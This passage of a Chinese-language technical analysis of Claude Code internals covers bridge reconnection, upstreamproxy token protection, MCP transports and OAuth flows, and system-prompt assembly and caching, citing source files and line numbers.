### 96.3 BoundedUUIDSet 的去重

`handleIngressMessage`（`bridgeMessaging.ts:132`）用 `BoundedUUIDSet`（行 429，2000 容量环形缓冲）做 echo 去重和重发去重。在分布式系统中，消息可能因重连、重发而被重复接收。UUID 去重确保了重复消息被识别并丢弃，不重复处理。

环形缓冲（2000 容量）是有界内存设计——只保留最近的 2000 个 UUID，超出的旧 UUID 被驱逐。这防止了内存无限增长，同时覆盖了大多数重发场景（重发通常发生在近期）。

### 96.4 doReconnect 的双策略恢复

`doReconnect`（`replBridge.ts:617`）实现双策略恢复：

- **策略1**：原地重连（同 env 调 `reconnectSession`）——尝试在现有会话上恢复连接，保留会话状态
- **策略2**：归档旧会话创建新会话——策略1失败时，归档旧会话（保留历史），创建全新会话，从头开始

最多重建 3 次。这种双策略设计平衡了"恢复连续性"（策略1，无丢失）与"放弃恢复重头开始"（策略2，丢失未保存状态但保证可用）的权衡。3 次上限防止了无限重连消耗。

```mermaid
sequenceDiagram
    participant BR as Bridge
    participant TR as 传输
    participant SRV as 服务端

    Note over BR,SRV: 正常运行
    TR-->>BR: 连接断开
    BR->>BR: doReconnect 策略1
    BR->>SRV: reconnectSession (同env)
    alt 策略1成功
        SRV-->>BR: 恢复连接 (携带lastTransportSequenceNum续传)
        Note over BR: 序列号连续 不丢消息
    else 策略1失败
        BR->>BR: doReconnect 策略2
        BR->>SRV: 归档旧会话
        SRV-->>BR: 归档确认
        BR->>SRV: 创建新会话
        SRV-->>BR: 新会话ID + 新epoch
        Note over BR: 从头开始 丢失未保存状态
    end
```

### 96.5 runBridgeLoop 的主循环

`runBridgeLoop`（`bridgeMain.ts:141`）主循环：`pollForWork` → `decodeWorkSecret` → `acknowledgeWork` → `case 'session'`（行 859）派生。这是 standalone bridge 的核心循环——轮询工作、解码 secret、确认、派生会话。

### 96.6 --spawn/--capacity 的多会话

多会话模式（`--spawn`/`--capacity`，默认容量 32，行 83）。这让一个 bridge 进程管理多个会话——`--capacity 32` 表示最多同时 32 个会话。多会话模式适合服务器场景——一台机器为多个用户提供 bridge 服务。

### 96.7 SpawnMode 的三种隔离

三种 SpawnMode（`types.ts:69`）：`single-session`/`worktree`/`same-dir`。

- `single-session`：每个会话独立目录
- `worktree`：每个会话隔离 git worktree（行 983）——文件修改隔离
- `same-dir`：所有会话共享同一目录

worktree 模式最安全（文件隔离），same-dir 模式最轻量（无 worktree 开销）但会话间可能互相干扰文件。single-session 是折中。

### 96.8 onSessionDone 的清理

`onSessionDone`（行 442）：stopWork、worktree 清理、归档（多会话）或退出（单会话）。多会话模式下，会话完成后归档（保留历史）并准备接受新会话；单会话模式下，会话完成即退出进程。

### 96.9 超时看门狗

超时看门狗（行 1678）。bridge 可能因网络问题或子进程挂起而卡住，看门狗检测超时并清理，防止僵尸会话占用容量。


### 96.10 outbound-only 的 CCR mirror

outbound-only 模式（CCR mirror）跳过 SSE 读流。这是"单向桥接"——只从本地发送消息到远端，不接收远端消息。用于 CCR 镜像场景——本地 CLI 镜像到 CCR 用于观察，但不接受远端控制。

### 96.11 makeResultMessage 的 teardown 归档

`makeResultMessage`（bridgeMessaging.ts:399）在 teardown 前发送 result 帧以触发服务端归档。这确保了 bridge 关闭时会话被正确归档（而非留下半开连接），服务端可以清理资源。


## 第 97 章 Remote CCR 会话适配器与 upstreamproxy 安全

第 70 章概述了远程会话 CCR，但 `sdkMessageAdapter` 的适配器模式值得深入。CCR 远端会话发来的 SDK 消息与 REPL 内部 `Message` 类型不同，需要适配器转换。

### 97.1 convertSDKMessage 的优雅降级

`sdkMessageAdapter.ts` 的 `convertSDKMessage()`（第 168 行）把 CCR 发来的 SDK 消息转换为 REPL 内部 `Message` 类型：assistant/stream_event/result/system/init/status/tool_progress/compact_boundary。未知类型优雅忽略（第 268 行）。

"未知类型优雅忽略"是适配器模式的关键设计——CCR 服务端可能随版本演进添加新消息类型，本地 CLI 如果是旧版本不认识新类型，优雅忽略而非报错。这保证了向后兼容性——远端升级不会让旧版本地 CLI 崩溃。

### 97.2 SessionsWebSocket 的重连策略

`SessionsWebSocket.ts` 的重连策略体现分级处理：

- `4003` 永久失败不重连——这是"会话被强制终止"的错误，重连无意义
- `4001`（会话不存在）限 3 次重试——会话可能因 compaction 短暂不可用，3 次重试覆盖短暂窗口
- 一般最多 5 次——平衡重连努力与放弃
- 30s ping——保持连接活性，检测半开连接

这种分级策略避免了无意义的重连（4003 永久失败）同时给了短暂问题恢复机会（4001 限 3 次）。30s ping 是检测"假连接"的关键——TCP 可能因网络中间设备超时而断开，但本地不知道，ping 让双方确认连接活性。

### 97.3 Bun 原生 WS 与 Node ws 包的双运行时

`SessionsWebSocket.ts` 同时支持 Bun 原生 WS 与 Node `ws` 包。这是因为 Claude Code 可在 Bun 或 Node.js 运行时运行——Bun 有原生 WebSocket，Node 需要 `ws` 包。双运行时支持确保了在不同环境下 WebSocket 功能一致。

类似地，`relay.ts`（upstreamproxy）的手编 protobuf 也同时支持 Bun 与 Node。这种"双运行时兼容"贯穿整个网络层，是 Claude Code 跨运行时设计的体现。

### 97.4 remotePermissionBridge 的合成消息

`remotePermissionBridge.ts` 的 `createSyntheticAssistantMessage()`（第 12 行）为远端权限弹窗伪造 AssistantMessage；`createToolStub()`（第 53 行）为本地没有的 MCP 工具造 stub。

远端会话可能使用本地 CLI 没有的 MCP 工具（远端容器配置不同）。当远端请求这类工具的权限，本地需要造一个 stub 工具展示权限弹窗，让用户能审批。`createSyntheticAssistantMessage` 让权限请求在本地 UI 中正确渲染，即使本地没有对应的工具实现。

### 97.5 prctl PR_SET_DUMPABLE 防 ptrace

`setNonDumpable()`（`upstreamproxy.ts:225`）通过 bun:ffi 调 `prctl(PR_SET_DUMPABLE, 0)` 防 ptrace 窃取 token。session token 存在 `/run/ccr/session_token`，如果进程可被 ptrace，恶意代码可以读取进程内存窃取 token。`PR_SET_DUMPABLE, 0` 让进程不可被 ptrace（非 root 且非父进程），保护 token。

这一安全措施是"纵深防御"的一环——即使容器被入侵，攻击者也难以通过 ptrace 窃取 session token。

### 97.6 CA 证书与系统 bundle 合并

下载 CA 证书（`/v1/code/upstreamproxy/ca-cert`）与系统 bundle 合并到 `~/.ccr/ca-bundle.crt`。这让容器内的工具（curl/gh/kubectl）信任 upstreamproxy 的 MITM 证书——upstreamproxy 用自己的 CA 签发证书做 MITM，容器内工具需要信任这个 CA 才能建立连接。

合并到系统 bundle 而非替换，保留了系统原有 CA 信任，同时添加 upstreamproxy CA。这确保了容器内工具既能通过 upstreamproxy（被 MITM 注入凭据），也能直接访问不经过 upstreamproxy 的站点（用系统原有 CA）。

### 97.7 unlink token 文件的时机

启动本地 relay（`relay.ts`）**之后才 unlink token 文件**（失败可重试）。这一顺序很关键——如果先 unlink token 再启动 relay，relay 启动失败时 token 已删除，无法重试。先启动 relay 成功后再 unlink，确保 relay 拿到 token 后 token 才被清理，失败时可重试。

### 97.8 NO_PROXY_LIST 的信任链保护

`NO_PROXY_LIST`（第 37 行）放行 localhost、RFC1918、IMDS、`*.anthropic.com`、github、npm/pypi/crates/goproxy 等，避免 MITM 破坏信任链。

这些放行是必要的——如果 upstreamproxy MITM 了 npm registry 的请求，它可能篡改下载的包，破坏供应链信任。通过放行这些关键域名，upstreamproxy 只注入凭据到需要凭据的服务（如 Datadog），不碰触需要信任链完整的服务（如包管理器）。

`*.anthropic.com` 的放行避免了"代理代理自己"的循环——Anthropic API 的请求不应经过 upstreamproxy（upstreamproxy 本身依赖 Anthropic API）。


## 第 98 章 MCP 传输协议与工具包装

第 45 章概述了 MCP，但其传输层的协议细节值得深入剖析。Claude Code 的 MCP 客户端支持 7 种传输类型，每种都有独特的连接、鉴权、错误处理逻辑。核心在 `src/services/mcp/client.ts`（3348 行）。

### 98.1 连接统一入口与 memoize

连接统一入口 `connectToServer = memoize(async (name, serverRef, serverStats?) => ...)`（行 595-1641），memoize key 为 `getServerCacheKey(name, serverRef)`（行 581-586，`${name}-${JSON.stringify(serverRef)}`）。memoize 确保同一服务器配置只连接一次，后续调用复用已建立的连接。

### 98.2 fetch 包装层的超时处理

`wrapFetchWithTimeout(baseFetch: FetchLike): FetchLike`（行 492-550）对每个非 GET 请求套用新的 `AbortController` + 60s `setTimeout`。这里有一个工程细节：使用 `setTimeout` 而非 `AbortSignal.timeout()`，是为了避免 Bun 下每次请求泄漏 ~2.4KB 原生内存且 GC 懒惰。GET 请求跳过超时——在 MCP 传输中 GET 是长生命 SSE 流，应无限保持。

规范化 headers，保证 `accept: application/json, text/event-stream` 存在（防御性，针对某些运行时在 spread 后丢弃该头）。合并父级 signal：`parentSignal.addEventListener('abort', abort)`，完成后 `cleanup` 移除监听器防泄漏。

### 98.3 各传输类型的连接差异

**SSE**（`serverRef.type === 'sse'`，行 619-677）：创建 `ClaudeAuthProvider`，fetch 嵌套包装 `wrapFetchWithTimeout(wrapFetchWithStepUpDetection(createFetchWithInit(), authProvider))`——step-up 检测在最内层，确保 403 在 SDK 调用 `auth()→tokens()` 前被捕获。`eventSourceInit.fetch` 特殊：长生命 EventSource 连接**不**使用 timeout 包装；内部手动取 `authProvider.tokens()` 注入 Authorization。

**HTTP / StreamableHTTP**（行 784-865）：同样创建 `ClaudeAuthProvider`。关键：先 `const hasOAuthTokens = !!(await authProvider.tokens())`（行 812）。若服务器有存储的 OAuth token，SDK 的 authProvider 会设置 Authorization，故不用 session ingress token 覆盖。CCR proxy URL 无 OAuth，故仍注入 ingress token。`MCP_STREAMABLE_HTTP_ACCEPT = 'application/json, text/event-stream'`——Streamable HTTP 规范要求每次 POST 都声明同时接受 JSON 与 SSE。

**claude.ai proxy**（行 868-904）：`getClaudeAIOAuthTokens()` 必须存在否则抛错。`proxyUrl = ${MCP_PROXY_URL}${MCP_PROXY_PATH.replace('{server_id}', serverRef.id)}`。`createClaudeAiProxyFetch`（行 372-422）注入 OAuth bearer，401 时调用 `handleOAuth401Error`，仅在 token 实际变更时重试。

**stdio**（行 944-961）：`new StdioClientTransport({ command, args, env: {...subprocessEnv(), ...serverRef.env}, stderr: 'pipe' })`。`stderr: 'pipe'` 防止 MCP 服务器错误输出污染 UI，stderr 累积上限 64MB。

**in-process**（Chrome MCP / Computer Use MCP，行 905-943）：通过 `createLinkedTransportPair()`（InProcessTransport）连接客户端/服务端传输对，避免派生 ~325MB 子进程。这是性能优化——Chrome MCP 若用 stdio 会派生一个完整的 Chrome 进程（325MB），用 in-process 则直接在主进程内运行。

### 98.4 错误分类与重连

`client.onerror`（行 1266-1371）增强处理器实现分层错误处理：

1. 对 `http`/`claudeai-proxy` 调用 `isMcpSessionExpiredError(error)`（行 193-206：HTTP 404 + JSON-RPC code `-32001` 双信号）→ `closeTransportAndRejectPending('session expired')`
2. 对 SSE/HTTP/claudeai-proxy：`error.message.includes('Maximum reconnection attempts')` → 立即 `closeTransportAndRejectPending('SSE reconnection exhausted')`（SDK StreamableHTTP 默认 maxRetries=2，但不调 onclose，致 pending callTool 悬挂）
3. `isTerminalConnectionError`（行 1249-1263 匹配 ECONNRESET/ETIMEDOUT/EPIPE/EHOSTUNREACH/ECONNREFUSED/`Body Timeout Error`/`terminated`/`SSE stream disconnected`）→ `consecutiveConnectionErrors++`，达 `MAX_ERRORS_BEFORE_RECONNECT(3)` → `closeTransportAndRejectPending` 并重置计数
4. `closeTransportAndRejectPending`（行 1240-1247）由 `hasTriggeredClose` 守卫防重入

`client.onclose`（行 1374-1402）清 memoize 缓存：`connectToServer.cache.delete(key)` + `fetchToolsForClient.cache.delete(name)` 等。这保证下次操作重连并刷新工具/资源/命令。

### 98.5 鉴权缓存跳过

`MCP_AUTH_CACHE_TTL_MS = 15 * 60 * 1000`（行 257），缓存路径 `~/.claude/mcp-needs-auth-cache.json`（行 261-263）。`isMcpAuthCached`（行 280-287）用于跳过最近 15 分钟内返回 401 的服务器——这避免了每轮查询都尝试连接一个需要鉴权但用户尚未授权的服务器，节省连接开销。`setMcpAuthCacheEntry`（行 293-309）通过 `writeChain` 串行化写入以防止并发 read-modify-write 竞争。

### 98.6 cleanup 的进程终止升级

stdio 传输的 cleanup（行 1404-1570）实现显式进程终止升级：`process.kill(childPid, 'SIGINT')` → 100ms 等待 → `process.kill(childPid, 'SIGTERM')` → 400ms → `process.kill(childPid, 'SIGKILL')`。用 `process.kill(pid, 0)` 每 50ms 探测进程是否存在，failsafe 600ms。这种逐级升级给了 MCP 服务器进程优雅退出的机会（SIGINT 可被捕获处理清理），同时保证最终一定被杀（SIGKILL 不可捕获）。

### 98.7 mcp__server__tool 命名规范

`buildMcpToolName(client.name, tool.name)`（行 1768，定义于 `mcpStringUtils.ts:50-52`）= `mcp__${normalizeNameForMCP(serverName)}__${normalizeNameForMCP(toolName)}`。`normalizeNameForMCP`（`normalization.ts:17-23`）把 `[^a-zA-Z0-9_-]` 替换为 `_`；claude.ai 服务器（前缀 `'claude.ai '`）额外折叠连续下划线并去首尾下划线，防止干扰 `__` 分隔符。

这一命名规范确保了：工具名全局唯一（server + tool 双重限定）、可解析（`mcp__` 前缀 + `__` 分隔符）、权限规则可匹配（`Bash(git *)` 式规则可作用到 `mcp__server__tool`）。SDK 前缀跳过：`CLAUDE_AGENT_SDK_MCP_NO_PREFIX` 时用原始 tool.name，但 mcpInfo 仍用于权限检查。

### 98.8 注解映射

包装为内部 Tool 接口时，MCP 工具的 annotations 被映射：

- `isConcurrencySafe()`：`return tool.annotations?.readOnlyHint ?? false`——声明只读的工具可并发执行
- `isReadOnly()`：同上
- `isDestructive()`：`return tool.annotations?.destructiveHint ?? false`
- `isOpenWorld()`：`return tool.annotations?.openWorldHint ?? false`
- `isSearchOrReadCommand()`：`classifyMcpToolForCollapse(client.name, tool.name)`——用于决定 UI 折叠行为
- `userFacingName()`：`${client.name} - ${tool.annotations?.title || tool.name} (MCP)`

`_meta` 自定义注解：`searchHint`（`tool._meta?.['anthropic/searchHint']`，折叠空白+trim）和 `alwaysLoad`（`tool._meta?.['anthropic/alwaysLoad'] === true`）。这些让 MCP 服务器能向 Claude Code 传递额外的工具元数据，影响 ToolSearch 的延迟加载决策。

### 98.9 image 降采样与大输出持久化

`transformResultContent`（行 2478-2591）把 MCP 工具/prompt 内容转为消息块：image 类型 `maybeResizeAndDownsampleImageBuffer` 降采样（避免大图撑爆上下文）；resource blob 若是图片 MIME 类型同样降采样，否则 `persistBlobToTextBlock`（base64 解码后 `persistBinaryContent`，返回含文件路径的文本块）；audio 也 `persistBlobToTextBlock`。

`processMCPResult`（行 2720-2799）处理大输出：`mcpContentNeedsTruncation` 判断过大；图片内容 `contentContainsImages` 为真则截断（持久化为 JSON 会破坏图片压缩与可读性）；否则 `persistToolResult` 保存到文件，返回 `getLargeOutputInstructions` 让模型读文件。

### 98.10 URL elicitation 重试

`callMCPToolWithUrlElicitationRetry`（行 2813-3027）捕获 `McpError` 且 `error.code === ErrorCode.UrlElicitationRequired`（-32042）：`MAX_URL_ELICITATION_RETRIES = 3`。从 `error.data.elicitations` 提取 URL 参数，先 `runElicitationHooks`（hook 可编程解析），无 hook 则 `handleElicitation`（print/SDK）或入队 AppState（REPL）。两阶段 consent/waiting：`respond(result)` 中 accept 是 no-op（不 resolve retry Promise），`onWaitingDismiss(action)` 中 retry → resolve accept。


### 98.11 Claude Code 作为 MCP 服务端

`src/entrypoints/mcp.ts` 的 `startMCPServer(cwd, debug, verbose)`（行 35-196）：用 `Server`（`@modelcontextprotocol/sdk/server`）+ `StdioServerTransport`，把 Claude Code 的内置工具（`getTools`）作为 MCP 工具暴露。`ListToolsRequestSchema` 处理器对每个工具 `zodToJsonSchema(tool.inputSchema)` 转 inputSchema；`CallToolRequestSchema` 处理器找工具 → `tool.call` → 返回 `{content: [{type:'text', text: ...}]}`。这让 Claude Code 自身作为 MCP server 给其他客户端用。

### 98.12 elicitation handler

`registerElicitationHandler`（elicitationHandler.ts:68-212）：`client.setRequestHandler(ElicitRequestSchema, ...)`。先 `runElicitationHooks`（hook 可编程返回 accept/decline/cancel + content），无 hook 则 `getElicitationMode`（url/form），入队 AppState，`respond(result)` resolve Promise。`extra.signal.addEventListener('abort', onAbort, { once: true })` → `{action:'cancel'}`。完成通知处理器 `ElicitationCompleteNotificationSchema` 设 `completed:true`。

### 98.13 channel notification 的权限中继

`ChannelMessageNotificationSchema`（channelNotification.ts:37-47）：`method: 'notifications/claude/channel'`，handler 把 content 包进 `<channel source="...">` XML 标签入队，SleepTool 轮询 `hasCommandsInQueue()` 唤醒。

权限中继：`ChannelPermissionNotificationSchema`（`method: 'notifications/claude/channel/permission'`，`params: {request_id, behavior: 'allow'|'deny'}`）——服务器解析用户 "yes tbxkq" 后 emit，CC 按 request_id 匹配 pending map。回复正则 `PERMISSION_REPLY_RE = /^\s*(y|yes|n|no)\s+([a-km-z]{5})\s*$/i`——5 个小写字母（去掉 `l` 防 1/I 混淆），25^5≈9.8M 空间，大小写不敏感（手机 autocorrect）。

`shortRequestId`（channelPermissions.ts:140-152）：FNV-1a 哈希 → base-25 编码 5 字母；`ID_AVOID_SUBSTRINGS`（fuck/shit/cunt/... 23 个）黑名单，命中则加盐重哈希，最多 10 次。这是一个细节满满的设计——5 字母 ID 既足够唯一（9.8M 空间），又避免脏词，还兼容手机的自动大写纠正。

### 98.14 InProcessTransport 与 SdkControlTransport

`InProcessTransport`（InProcessTransport.ts:11-49）同进程内运行 MCP server+client 不派生子进程：`send(message)` 用 `queueMicrotask` 异步投递避免同步 request/response 栈深度问题。`createLinkedTransportPair()` 创建配对两端。

`SdkControlTransport` 桥接 CLI 进程（MCP client）与 SDK 进程（MCP server）通过控制消息通信：`SdkControlClientTransport.send` 经 stdout 发控制请求到 SDK 进程，同步等待响应；`SdkControlServerTransport.send` 简单 pass-through 回调。这让 SDK 进程内的 MCP server 能被 CLI 进程访问。


## 第 99 章 MCP OAuth 的全栈实现

第 46 章概述了 OAuth，但 MCP 服务器自身的 OAuth（区别于 Claude Code 自身的登录 OAuth）实现极其完整，值得深入。

### 99.1 RFC 9728 / RFC 8414 发现链

`fetchAuthServerMetadata`（auth.ts:256-311）实现标准发现链：

1. 若 `configuredMetadataUrl`（用户配置）：必须 `https://`（RFC 8414 强制 TLS），`OAuthMetadataSchema.parse`
2. 否则调 `discoverOAuthServerInfo`（SDK）——SDK 实现 RFC 9728：探测 `/.well-known/oauth-protected-resource`，读 `authorization_servers[0]`，再 RFC 8414 探测该 URL
3. 若失败且 URL 有 path，用 `discoverAuthorizationServerMetadata` 做路径感知的 RFC 8414 探测（SDK 自身 fallback 会剥离 path，此处保留向后兼容）

这一发现链让 Claude Code 能自动发现任何符合标准的 MCP 服务器的 OAuth 配置，无需用户手动配置。

### 99.2 PKCE 流程与 CSRF 防护

`performMCPOAuthFlow`（行 847-1342）的 PKCE 流程：`oauthState = randomBytes(32).toString('base64url')`，创建本地 HTTP 回调服务器，`/callback` 路径校验 `state === oauthState`（CSRF 防护）。error 参数经 `xss()` 函数净化防 XSS。`server.unref()` 防止回调服务器或超时 pin 住事件循环。5 分钟超时，`timeoutId.unref()`。

支持手动粘贴回调 URL（`onWaitingForCallback`）用于远程/浏览器环境 localhost 不可达。`EADDRINUSE` 提供平台特定查找命令（`netstat -ano | findstr :${port}` / `lsof -ti:${port}`）。

### 99.3 token 刷新锁与并发控制

`refreshAuthorization(refreshToken)`（行 2090-2175）用 lockfile 跨进程锁：路径 `mcp-refresh-${sanitizedKey}.lock`，`MAX_LOCK_RETRIES = 5`，`ELOCKED` 时 `sleep(1000 + random*1000)` 重试。获取锁后 `clearKeychainCache()` + 重读 token，若 `expiresIn > 300` 说明另一进程已刷新，直接返回其 token——这避免了多个 Claude Code 实例并发刷新同一服务器的 token。

### 99.4 step-up auth 的包装

`wrapFetchWithStepUpDetection`（行 1354-1374）检测 `response.status === 403` 且 `WWW-Authenticate` 含 `insufficient_scope`。正则提取 scope，`provider.markStepUpPending(scope)`。`tokens()` 据此省略 refresh_token——因为 RFC 6749 §6 禁止用 refresh token 升级 scope，必须走完整的 PKCE 流程重新授权。注释详述：无此包装，SDK 见 refresh_token → 无用刷新 → 403 → 重试 → "Server returned 403 after trying upscoping"，永不达 `redirectToAuthorization`。

### 99.5 非标准错误体规范化

`normalizeOAuthErrorBody`（行 157-190）处理 Slack 等服务器 HTTP 200 返回错误 JSON 的非标准行为——2xx POST 体若匹配 `OAuthErrorResponseSchema` 但非 `OAuthTokensSchema` 则重写为 400 Response。`NONSTANDARD_INVALID_GRANT_ALIASES`（`invalid_refresh_token`/`expired_refresh_token`/`token_expired`）规范化为 `invalid_grant`，使 `InvalidGrantError` 正确触发 token 失效。这是对"现实世界的 OAuth 服务器不一定严格遵守标准"的工程兼容。

### 99.6 XAA 跨应用访问

`performMCPXaaAuth`（行 664-845）实现企业跨应用访问：IdP 配置来自 `settings.xaaIdp`，`acquireIdpIdToken`（OIDC authorization_code+PKCE），`discoverOidc` 找 token endpoint，`performCrossAppAccess`（RFC 8693 token exchange + RFC 7523 jwt-bearer grant）。无静默 fallback——`oauth.xaa` 设了 XAA 是唯一路径。`xaaRefresh`（行 1751-1850）缓存 id_token → Layer-2 交换 → 新 access_token，无浏览器。


## 第 100 章 系统提示词的组装、缓存与 API 注入

第 55 章概述了 CLAUDE.md 注入，但整个系统提示词的组装机制值得深入剖析。系统提示词不是单段字符串，而是由静态数组拼装成 `string[]`，再在 API 层切成多个带 `cache_control` 的 text block 发往 Messages API。

### 100.1 三路并行获取

`fetchSystemPromptParts`（queryContext.ts:44）用 `Promise.all` 并行拉取三者：

- `getSystemPrompt(tools, model, dirs, mcpClients)` → 走 `system` 字段
- `getUserContext()`（claudeMd + currentDate）→ 作为前置 user 消息注入对话
- `getSystemContext()`（gitStatus）→ 拼到 system prompt 尾部

三者角色不同，并行拉取形成 API 缓存键前缀。`buildEffectiveSystemPrompt`（systemPrompt.ts:41）按优先级 override > coordinator > agent > custom > default 选择最终 systemPrompt。

### 100.2 getSystemPrompt 的段落注册

`getSystemPrompt`（prompts.ts:444-577）构建 `dynamicSections: SystemPromptSection[]`，每个段落由 `systemPromptSection(name, compute)` 或 `DANGEROUS_uncachedSystemPromptSection(name, compute, reason)` 创建。注册顺序即最终输出顺序：

| # | key | 缓存 | 内容 |
|---|---|---|---|
| 1 | `session_guidance` | cached | 会话特定指导 |
| 2 | `memory` | cached | `loadMemoryPrompt()` |
| 3 | `ant_model_override` | cached | ant 模型覆盖 |
| 4 | `env_info_simple` | cached | 环境信息 |
| 5 | `language` | cached | 语言设置 |
| 6 | `output_style` | cached | 输出风格 |
| 7 | `mcp_instructions` | **uncached** | MCP 指令（delta 启用时 null）|
| 8 | `scratchpad` | cached | scratchpad 指令 |
| 9 | `frc` | cached | function result clearing |
| 10 | `summarize_tool_results` | cached | 工具结果摘要 |
| 11 | `numeric_length_anchors` | cached(ant) | 字数限制锚点 |
| 12 | `token_budget` | cached(TOKEN_BUDGET) | token 预算指令 |
| 13 | `brief` | cached(KAIROS) | brief 模式 |

### 100.3 静态段与动态段的边界

最终拼接（L560-576）在静态段与动态段间插入 `SYSTEM_PROMPT_DYNAMIC_BOUNDARY = '__SYSTEM_PROMPT_DYNAMIC_BOUNDARY__'`（L114）。标记前可用 `scope:'global'`（可跨 org 缓存），标记后是用户/会话专属内容不可全局缓存。修改需同步 `api.ts (splitSysPromptPrefix)` 与 `claude.ts (buildSystemPromptBlocks)`。

静态段（boundary 前）：intro（自我身份 + CYBER_RISK_INSTRUCTION + URL 规则）、System（6 条 bullet：输出渲染、权限模式、system-reminder、prompt 注入、hooks、自动压缩）、Doing tasks（代码风格、诚实报告）、Executing actions（可逆性/确认）、Using your tools（优先专用工具、并行调用）、Tone and style、Output efficiency。

### 100.4 systemPromptSection 缓存机制

`systemPromptSection(name, compute)`（systemPromptSections.ts:20）：`cacheBreak: false`，memoize 一次，缓存到 /clear 或 /compact。`DANGEROUS_uncachedSystemPromptSection(name, compute, _reason)`（L32）：`cacheBreak: true`，每轮重算，**会破坏 prompt cache**，强制要求传 `_reason` 解释。目前仅 `mcp_instructions`（原因 "MCP servers connect/disconnect between turns"）使用。

`resolveSystemPromptSections`（L43）：对每个 section，若 `!cacheBreak && cache.has(name)` 返回缓存值；否则 `await compute()` 并缓存。缓存存在 `STATE.systemPromptSectionCache: Map<string, string|null>`。

`clearSystemPromptSections`（L65）：同时调 `clearSystemPromptSectionState()` + `clearBetaHeaderLatches()`。在 /clear、/compact 时调用，重置 beta header latches 以便新对话重新评估 AFK/fast-mode/cache-editing headers。

### 100.5 记忆段落的日期不失效

注释（memdir.ts:330）强调：`memory` 段由 `systemPromptSection('memory', …)` 缓存，**不随日期变化失效**——模型从 `date_change` 附件获取当前日期，而非 user-context 消息（后者故意保留 stale 以保缓存前缀）。这是一个微妙但重要的设计：如果记忆段落随日期变化重算，缓存前缀会每天失效一次。通过把日期信息作为附件注入而非写入缓存段落，缓存前缀保持稳定。

`loadMemoryPrompt`（memdir.ts:419）按优先级分派：KAIROS + auto → `buildAssistantDailyLogPrompt`（append-only 日志，路径用 `YYYY/MM/YYYY-MM-DD.md` 模式以保持缓存稳定）；TEAMMEM + team memory → `buildCombinedMemoryPrompt`；auto → `buildMemoryLines`；否则 null。

### 100.6 工具定义的 API 注入

工具**不注入系统提示字符串**，而是作为 `tools` 数组单独发给 API。`toolToAPISchema`（api.ts:119）会话级缓存，key = tool.name。`description = await tool.prompt(...)`，`input_schema` 来自 `zodToJsonSchema(tool.inputSchema)`。条件附加：`strict`（model 支持）、`eager_input_streaming`、`defer_loading`、`cache_control`。`CLAUDE_CODE_DISABLE_EXPERIMENTAL_BETAS=1` 时在唯一 choke point 剥离非基础字段。

### 100.7 thinking config 的决策

`ThinkingConfig = {type:'adaptive'} | {type:'enabled'; budgetTokens} | {type:'disabled'}`。决策点（claude.ts:1596-1630）：`hasThinking && modelSupportsThinking` 时，若 `modelSupportsAdaptiveThinking`（仅 opus-4-6/sonnet-4-6）→ `{type:'adaptive'}`，否则 `{type:'enabled', budget_tokens: min(maxOutputTokens-1, getMaxThinkingTokensForModel)}`。`contextManagement` 由 `getAPIContextManagement` 决定，`thinkingClearLatched` 为 1h 空闲后的 sticky latch。

```mermaid
flowchart TD
    ASK[QueryEngine.ask] --> FSP[fetchSystemPromptParts 并行三路]
    FSP --> GSP[getSystemPrompt]
    FSP --> GUC[getUserContext claudeMd+date]
    FSP --> GSC[getSystemContext gitStatus]
    GSP --> STATIC[静态段 intro/System/DoingTasks/Actions/Tools/Tone]
    GSP --> BOUND[SYSTEM_PROMPT_DYNAMIC_BOUNDARY]
    GSP --> DYN[动态段 13段 cached/uncached]
    DYN --> RES[resolveSystemPromptSections]
    RES --> CACHE{cacheBreak?}
    CACHE -->|否 cached| HIT[缓存命中 /clear或/compact失效]
    CACHE -->|是 uncached| RECOMP[每轮重算 破坏cache]
    STATIC --> ARR[string[]]
    BOUND --> ARR
    DYN --> ARR
    GUC --> USERMSG[前置user消息 prependUserContext]
    GSC --> APPEND[appendSystemContext 拼尾部]
    ARR --> BSP[buildSystemPromptBlocks]
    APPEND --> BSP
    BSP --> API[Messages API system字段 + cache_control]
```


### 100.8 env_info 段落

`computeSimpleEnvInfo`（prompts.ts:651）拼接 `# Environment` + bullet 列表：Primary working directory（`getCwd()`）、worktree 提示、Is a git repository、additional working directories、Platform、Shell（win32 附加 Unix 语法提示）、OS Version、模型描述与知识截止、最新模型族 ID、Claude Code 可用形态、Fast mode 说明。后几项在 undercover 时抑制。

### 100.9 userContext 的前置 user 消息

`getUserContext`（context.ts:155，memoize）：`claudeMd`（`getClaudeMds(filterInjectedMemoryFiles(await getMemoryFiles()))`，受 `CLAUDE_CODE_DISABLE_CLAUDE_MDS` / `--bare` 控制）+ `currentDate`。作为前置 user 消息注入（query.ts:660 `prependUserContext`）。这是与 system prompt 不同的注入路径——CLAUDE.md 不是系统提示，而是对话开始前的"背景用户消息"。

### 100.10 systemContext 的 git 快照

`getSystemContext`（context.ts:116，memoize）：`gitStatus`（分支、主分支、git user、`git status --short` 截断 2000 字符、最近 5 条 commit）。`appendSystemContext(systemPrompt, systemContext)` 拼到 system prompt 尾部。git 快照让模型感知当前仓库状态，便于 commit/PR 等操作。

### 100.11 undercover 的抑制点

`isUndercover()`（undercover.ts:28）：仅 ant 生效。`CLAUDE_CODE_UNDERCOVER=1` 强开；否则 AUTO——除非 `getRepoClassCached()==='internal'`（内部仓库白名单），否则一律 ON。影响点：`computeSimpleEnvInfo`/`computeEnvInfo` 抑制模型名/ID/知识截止/最新模型族/Fast mode 描述；`getAntModelOverrideSection` 返回 null。这让在公共仓库贡献时，模型不会泄露内部模型信息。

### 100.12 getAttributionHeader 的计费标识

`getAttributionHeader(fingerprint)`（system.ts:73）：生成 `x-anthropic-billing-header: cc_version=…; cc_entrypoint=…;[ cch=00000;][ cc_workload=…]`。这是计费标识 header——让服务端知道请求来自 Claude Code（cc_version）、入口（cc_entrypoint）、工作负载（cc_workload）。

### 100.13 NATIVE_CLIENT_ATTESTATION 占位符

含 `NATIVE_CLIENT_ATTESTATION` 占位符（由 Bun HTTP 栈覆盖）。客户端证明（attestation）是一种反篡改机制——证明请求来自真正的 Claude Code 客户端而非伪造。占位符由 Bun HTTP 栈在发送时填充实际证明值。

### 100.14 CLI_SYSPROMPT_PREFIXES 的前缀识别

`CLI_SYSPROMPT_PREFIXES`（Set，供 `splitSysPromptPrefix` 按内容识别前缀块）。系统提示词可能有不同前缀（DEFAULT、AGENT_SDK、SDK_CLAUDE_CODE preset），`splitSysPromptPrefix` 按内容识别用了哪个前缀，用于缓存键计算。

### 100.15 getCLISyspromptPrefix 的条件选择

